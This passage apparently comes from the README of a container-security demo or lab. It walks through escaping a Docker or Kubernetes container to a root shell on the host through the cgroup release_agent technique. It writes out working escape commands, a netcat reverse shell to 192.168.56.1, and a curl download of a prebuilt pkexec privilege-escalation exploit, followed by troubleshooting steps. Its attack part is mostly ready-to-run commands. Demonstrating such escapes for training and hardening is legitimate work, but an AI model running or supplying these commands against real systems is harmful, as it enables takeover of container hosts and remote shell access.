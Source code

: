 Now you got a root shell from your container host.

To delete the deployment just run:

```
kubectl delete -f gitlab-deployment.yaml
```

### some ideas

- just execute `ps aux` on the container host

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

- reverse shell with netcat

```bash
echo "nc -e /bin/bash 192.168.56.1 4243" >> /cmd
```

```bash
echo "$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)" > /tmp/cgrp/release_agent
```

- the pkexec compile exploit can be downloaded from

```
curl -vkO https://pwnkit.s3.amazonaws.com/priv-es
```

# Troubelshooting

- if you execute the following command and get `mount: /tmp/cgrp: permission denied.`

```bash
root@46646bb3e291:/# mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```

- then your docker daemon is in [Rootless mode](https://docs.docker.com/engine/security/rootless/). you have to execute the following commands

```bash
mondoo@mondoo:~$ sudo apt-get install -y uidmap
mondoo@mondoo:~$ dockerd-rootless-setuptool.sh uninstall
+ systemctl --user stop docker.service
Failed to stop docker.service: Unit docker.service not loaded.
+ systemctl --user disable docker.service
Failed to disable unit: Unit file docker.service does not exist.
[INFO] Uninstalled docker.service
[INFO] This uninstallation tool does NOT remove Docker binaries and data.
[INFO] To remove data, run: `/usr/bin/rootlesskit rm -rf /home/mondoo/.local/share/docker`
```
